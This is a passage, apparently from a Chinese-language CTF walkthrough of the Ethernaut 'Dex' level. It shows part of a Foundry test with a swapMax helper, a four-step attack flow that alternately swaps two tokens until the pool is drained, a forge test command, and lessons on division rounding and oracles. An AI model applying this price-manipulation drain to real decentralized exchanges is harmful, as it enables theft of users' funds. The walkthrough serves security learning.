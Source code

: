 ```javascript

        assertEq(
            token1.balanceOf(address(instance)) == 0 ||
                token2.balanceOf(address(instance)) == 0,
            true
        );

        vm.stopPrank();
    }

    function swapMax(ERC20 tokenIn, ERC20 tokenOut) public {
        instance.swap(
            address(tokenIn),
            address(tokenOut),
            tokenIn.balanceOf(player1)
        );
    }
```

攻击流程:

1. 部署 Attack 合约;
2. Attack 授权 Dex 使用token;
3. 将所有 token1 和 token2 发送给 Attack 合约;
4. 交替交换 token1 和token2 ，直到一种变为0;

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DexTest  -vvvvv
```

## 要点

- Solidity中使用除法需要格外小心.
- Foundry & Echidna的Fuzzer是不错的测试方法.
- 使用去中心化的预言机，这种方法更安全性。(例如 Chainlink and UniswapV3 TWAP )

## 参考

- UniswapV2Pair: https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L182

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
